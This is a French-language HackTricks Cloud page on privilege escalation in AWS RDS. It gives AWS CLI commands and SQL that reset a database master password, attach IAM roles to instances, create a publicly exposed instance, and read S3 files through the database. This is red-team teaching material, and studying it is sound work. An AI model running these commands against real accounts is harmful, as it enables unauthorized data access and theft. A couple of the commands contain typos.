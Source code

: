 # AWS - RDS Privesc

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## RDS - Relational Database Service

Pour plus d'informations sur RDS, consultez :

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Avec cette permission, un attaquant peut **modifier le mot de passe de l'utilisateur principal**, et se connecter à la base de données :
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Vous aurez besoin de pouvoir **contacter la base de données** (elles sont généralement accessibles uniquement depuis des réseaux internes).
{% endhint %}

**Impact potentiel :** Trouver des informations sensibles à l'intérieur des bases de données.

### rds-db:connect

Selon les [**docs**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), un utilisateur avec cette permission pourrait se connecter à l'instance de base de données.

### Abuser des permissions IAM du rôle RDS

#### Postgresql (Aurora)

{% hint style="success" %}
Si en exécutant **`SELECT datname FROM pg_database;`** vous trouvez une base de données appelée **`rdsadmin`**, vous savez que vous êtes à l'intérieur d'une **base de données postgresql AWS**.
{% endhint %}

D'abord, vous pouvez vérifier si cette base de données a été utilisée pour accéder à un autre service AWS. Vous pourriez vérifier cela en regardant les extensions installées :
```sql
SELECT * FROM pg_extension;
```
Si vous trouvez quelque chose comme **`aws_s3`**, vous pouvez supposer que cette base de données a **un certain type d'accès sur S3** (il existe d'autres extensions telles que **`aws_ml`** et **`aws_lambda`**).

De plus, si vous avez les permissions pour exécuter **`aws rds describe-db-clusters`**, vous pouvez voir là si le **cluster a un rôle IAM attaché** dans le champ **`AssociatedRoles`**. Le cas échéant, vous pouvez supposer que la base de données a été **préparée pour accéder à d'autres services AWS**. En fonction du **nom du rôle** (ou si vous pouvez obtenir les **permissions** du rôle), vous pourriez **deviner** quel accès supplémentaire la base de données possède.

Maintenant, pour **lire un fichier à l'intérieur d'un bucket**, vous devez connaître le chemin complet. Vous pouvez le lire avec :
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Si vous aviez des **identifiants AWS bruts**, vous pourriez également les utiliser pour accéder aux données S3 avec :
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **n'a pas besoin de modifier de variable de groupe de paramètres** pour pouvoir accéder à S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Dans un mysql, si vous exécutez la requête **`SELECT User, Host FROM mysql.user;`** et qu'il y a un utilisateur appelé **`rdsadmin`**, vous pouvez supposer que vous êtes dans une base de données mysql **AWS RDS**.
{% endhint %}

Dans le mysql, exécutez **`show variables;`** et si les variables telles que **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, ont des valeurs, vous pouvez supposer que la base de données est prête à accéder aux données S3.

De plus, si vous avez les permissions pour exécuter **`aws rds describe-db-clusters`**, vous pouvez vérifier si le cluster a un **rôle associé**, ce qui signifie généralement un accès aux services AWS).

Maintenant, pour **lire un fichier dans un bucket**, vous devez connaître le chemin complet. Vous pouvez le lire avec :
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Un attaquant avec les permissions `rds:AddRoleToDBCluster` et `iam:PassRole` peut **ajouter un rôle spécifié à une instance RDS existante**. Cela pourrait permettre à l'attaquant **d'accéder à des données sensibles** ou de modifier les données au sein de l'instance.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Impact potentiel** : Accès aux données sensibles ou modifications non autorisées des données dans l'instance RDS.\
Notez que certaines bases de données nécessitent des configurations supplémentaires, comme Mysql, qui doit spécifier le rôle ARN dans les groupes de paramètres également.

### `rds:CreateDBInstance`

Avec cette seule permission, un attaquant pourrait créer une **nouvelle instance à l'intérieur d'un cluster** qui existe déjà et qui a un **rôle IAM** attaché. Il ne pourra pas changer le mot de passe de l'utilisateur principal, mais il pourrait exposer la nouvelle instance de base de données à Internet :
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO : Tester
{% endhint %}

Un attaquant avec les permissions `rds:CreateDBInstance` et `iam:PassRole` peut **créer une nouvelle instance RDS avec un rôle spécifié attaché**. L'attaquant peut alors potentiellement **accéder à des données sensibles** ou modifier les données au sein de l'instance.

{% hint style="warning" %}
Certains prérequis du rôle/profil d'instance à attacher (depuis [**ici**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)) :

* Le profil doit exister dans votre compte.
* Le profil doit avoir un rôle IAM qu'Amazon EC2 a la permission d'assumer.
* Le nom du profil d'instance et le nom du rôle IAM associé doivent commencer par le préfixe `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
**Impact potentiel** : Accès aux données sensibles ou modifications non autorisées des données dans l'instance RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Un attaquant disposant des permissions `rds:AddRoleToDBInstance` et `iam:PassRole` peut **ajouter un rôle spécifié à une instance RDS existante**. Cela pourrait permettre à l'attaquant **d'accéder à des données sensibles** ou de modifier les données au sein de l'instance.

{% hint style="warning" %}
L'instance DB doit être en dehors d'un cluster pour cela
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Impact Potentiel** : Accès aux données sensibles ou modifications non autorisées des données dans l'instance RDS.

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
